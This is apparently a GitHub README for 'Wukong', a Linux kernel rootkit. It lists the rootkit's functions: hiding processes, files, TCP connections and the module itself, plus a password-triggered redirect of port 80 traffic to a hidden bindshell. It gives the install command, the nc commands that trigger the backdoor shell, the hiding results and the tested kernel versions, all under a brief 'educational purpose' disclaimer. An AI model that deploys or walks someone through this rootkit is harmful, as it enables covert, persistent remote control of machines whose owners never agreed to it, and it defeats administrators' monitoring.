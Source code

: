 # Wukong: A LKM rootkit for Linux kernel 2.6.x, 3.x and 4.x
<h1>
	Note:
</h1>
<p>
	<strong>This kernel rootkit is just for educational purpose and it shouldn't be used for any illegal activities, use this at your own risk.</strong>
</p>
<br />
<br />
<h1>
	Function
</h1>
<strong>1. Hide Linux Process.</strong><br />
<strong>2. Hide TCP connection.</strong><br />
<strong>3. Hide File/Directory.</strong><br />
<strong>4. Hide wukong.ko.</strong><br />
<strong>5. Redirect TCP connection to backdoor server by using the specific confidential password.</strong><br />
<br />
<h1>
	Usage
</h1>
<h2>
	1. Environment:
</h2>
ubunt-14.04 (1.1.1.33) --- (1.1.1.1)ubunt-14.04 &nbsp;<br />
(client)&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; (server)<br />
<br />
<br />
<h2>
	2. Test step:
</h2>
<h3>
	a. on server
</h3>
cd wukong/<br />
sudo ./install.pl<br />
<br />
sudo nc -k -l 80<br />
<br />
<h3>
	b. on client
</h3>
nc 1.1.1.1 80<br />
http<br />
ifconfig<br />
<br />
PS：The connection will be redirected to bindshell<br />
<br />
nc 1.1.1.1 80<br />
111111<br />
<br />
PS: a rst will be received.<br />
<br />
nc 1.1.1.1 80<br />
111111<br />
aaaaaa<br />
<br />
PS: The connection will be connected with tcp 80.<br />
<br />
<h2>
	3. Result:
</h2>
<strong>a. Bindshell file is hidden.</strong><br />
<strong>b. Tcp 8000 connection is hidden.</strong><br />
<strong>c. Bindshell process is hidden</strong><br />
<strong>c. wukong.ko is hidden</strong><br />
<strong>e. If "http" is the first four bytes to TCP 80, connection will be established with bindshell.</strong><br />
<br />
<br />
<h1>
	Tested OS:
</h1>
CentOS-5.5-i386-bin-DVD.iso<br />
&nbsp;&nbsp;&nbsp; Linux&nbsp; 2.6.18-408.el5 #1 SMP Tue Jan 19 09:13:33 EST 2016 i686 i686 i386 GNU/Linux<br />
CentOS-5.5-x86_64-bin-DVD<br />
&nbsp;&nbsp;&nbsp; Linux 2.6.18-194.el5 #1 SMP Fri Apr 2 14:58:14 EDT 2010 x86_64 x86_64 x86_64 GNU/Linux<br />
ubuntu-14.04.2-desktop-i386.iso<br />
&nbsp;&nbsp;&nbsp; Linux&nbsp; 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:45:15 UTC 2015 i686 i686 i686 GNU/Linux<br />
ubuntu-14.04.2-desktop-amd64.iso&nbsp; &nbsp;<br />
&nbsp;&nbsp;&nbsp; Linux&nbsp; 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:43:14 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux<br />
ubuntu-14.04.3-desktop-i386.iso<br />
&nbsp;&nbsp;&nbsp; Linux&nbsp; 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 i686 i686 i686 GNU/Linux<br />
ubuntu-14.04.3-desktop-amd64.iso<br />
&nbsp;&nbsp;&nbsp; Linux&nbsp; 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:16:20 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux<br />
<br />

